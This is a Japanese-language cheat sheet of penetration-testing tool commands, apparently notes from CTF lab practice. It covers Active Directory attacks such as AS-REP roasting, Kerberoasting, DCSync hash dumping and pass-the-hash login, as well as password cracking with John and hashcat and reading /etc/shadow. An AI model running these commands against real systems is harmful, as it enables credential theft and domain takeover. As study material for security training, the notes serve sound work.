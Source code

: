 ## Tools
- CyberChef  
  「Magic」可読可能な文字列に変換してくれる
- [enum4linux](https://github.com/CiscoCXSecurity/enum4linux)  (kali〇, Perl)  
  「`enum4linux` IPアドレス」
- [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) (kali〇, Ruby)  
  「`evil-winrm` -i IPアドレス -u ユーザ名 -H NTハッシュ」でWinRM経由でログインできる。
- gpg (kali〇, ELF)    
  「`gpg` --import "GPG鍵(拡張子.key)"」→「`gpg` -d "メッセージファイル(拡張子.gpg)"」でGPGファイルを復号
- [hashID](https://github.com/psypanda/hashID) (kali〇, python)  
  「`hashid` --john "Hashファイル名"」（--johnで、JohnTheRipperでのフォーマットも確認できる）
- [impacket](https://github.com/fortra/impacket) (Kali〇, python)  
  `impacket-〇〇`以外に、`python3 /usr/share/doc/python3-impacket/examples/〇〇.py`でも実行できる
  - GetNPUsers  
    - 「`impacket-GetNPUsers` -no-pass -dc-ip ドメコンIP ドメイン名/ユーザ名 -outputfile 出力ファイル名」  
      で`ASREPRoast`（Kerberos事前認証を必要としていないユーザのTGTを取得できる）を実行  
      取得したTGTを「john --wordlist=Wordlist名 TGT名」または「hashcat -a 0 -m 18200 wordlist名 TGT名 」でクラックできる  
    - 「`impacket-GetNPUsers` -no-pass -dc-ip ドメコンIP -userfile ユーザリスト ドメイン名/ -outputfile 出力ファイル名」  
      では「-userfile」内の各ユーザに対してASREPRoastを実行
  - GetUserSPNs  
    「`impacket-GetUserSPNs` -dc-ip ドメコンIP ドメイン名/ユーザ名:パスワード -outputfile 出力ファイル名」  
    でKerberoasting（取得したユーザのSPNに対応したアカウントのTGSを取得できる）を実行
  - secretsdump  
    「`impacket-secretsdump` -just-dc ドメイン名/ユーザ名:パスワード@IPアドレス -outputfile 出力ファイル名」  
    でDCSync権限を持つドメインユーザを使用して、各ドメインユーザのNTハッシュやKerberosキーをダンプできる。
- [John the Ripper](https://github.com/openwall/john)  (kali〇, C)  
  - 「`john` --wordlist=/usr/share/wordlists/rockyou.txt "Hashファイル" --format=Hash方式」  
    「`john` "Hashファイル名" --show」クラック済み結果を表示（もしくは`/home/kali/.john/.john.pot`に解析結果がある）
  - 「`john` --list=formats」全フォーマットを表示  
    「--format=Raw-MD5」MD5ハッシュ, 「--format=nt」NTハッシュ
  - johnで解析するためのパスワード抽出
    - 「`zip2john` "zipファイル" > "出力ファイル"」johnで解析できるようにZIPパスワードを出力  
    - 「`rar2john` "rarファイル" > "出力ファイル"」johnで解析できるようにRARパスワードを出力  
    - 「`ssh2john` "SSH秘密鍵ファイル" > "出力ファイル"」johnで解析できるようにSSH秘密鍵を出力
    - 上記３つを実行後、「`john` --wordlist=/usr/share/wordlists/rockyou.txt "出力ファイル"」でクラック可能
  - 「john --single "Hashファイル" --format=Hash方式」SingleCrackモード（あんま使わん）  
    Hashファイルは`文字列:ハッシュ`形式。文字列を変換しながらHashクラックを行う。
  - 「sudo `unshadow` /etc/passwd /etc/shadow」  
    Johnで /etc/shadow をクラックするためのフォーマット作成
- [Kerbrute](https://github.com/ropnop/kerbrute) (kali×, Go)
  - install  
    GitHub上のReleaseからLinuxバイナリをインストール
  - 「`./kerbrute` userenum -d ドメイン名 --dc ドメコンIP Wordlists名 -o 出力ファイル名」Domainユーザの列挙
- [Rubeus](https://github.com/GhostPack/Rubeus) (kali×, C#)  
  攻撃対象のWindowsマシンで実行する、Post-Exploitationのイメージ  
  - 「`Rubeus.exe` harvest /interval:秒数」指定した秒数間、TGTを収集する  
  - 「`Rubeus.exe` kerberoast /nowrap /outfile:出力ファイル」  
    Kerberoasting（取得したユーザのSPNに対応したアカウントのTGSを取得できる）を実行（nowrapは改行なしで結果出力）  
    TGSは「`hashcat` -a 0 -m 13100 TGSファイル Passwordリスト」でクラックできる（JohnではTGSをサポートしてない）
  - 「`Rubeus.exe` asreproast /format:hashcat /outfile:出力ファイル」  
    ASREPRoast（Kerberos事前認証を必要としていないユーザのTGTを取得できる）を実行  
    ASREPは「`hashcat` -a 0 -m 18200 ASREPファイル Passwordリスト」でクラックできる（Johnでもクラックできる）
- smbclient (kali〇, ELF)  
  「`smbcleint` -L IPアドレス or FQDN -U ユーザ名%パスワード」共有フォルダの列挙  
  「`smbclient` //IPアドレス/共有名 -U ユーザ名%パスワード」共有フォルダにアクセス
- [SMBMap](https://github.com/ShawnDEvans/smbmap) (kali〇, python)  
  「`smbmap` -H IPアドレス -u ユーザ名 -p パスワード」共有フォルダの列挙（smbclientと比べフォルダ権限まで確認できる）
- SSH  
  SSH秘密鍵の権限は600か700でないとSSH鍵認証できない
  - sshkeygen
## Linux
### Command
- 「`sed` -i '1s/^/文字列' ファイル名」 ファイルの１行目（`1s`）先頭に文字列を追加（改行なし）
### Preference
- 「`sudo sed -i '$a10.10.253.185 spookysec.local' /etc/hosts`」を実行しHOSTSファイルを編集
- `$format$rounds$salt$hash` /etc/shadowのフォーマット、`$format`でハッシュ種別が分かる
## BookMark
- [CrackStation](https://crackstation.net/)
- [hashes.com](https://hashes.com/en/decrypt/hash)
- [hash_identifier](https://hashes.com/en/tools/hash_identifier)
- [SecLists](https://github.com/danielmiessler/SecLists)
- [RsaCtfTool](https://github.com/Ganapati/RsaCtfTool)
- [rsatool](https://github.com/ius/rsatool)
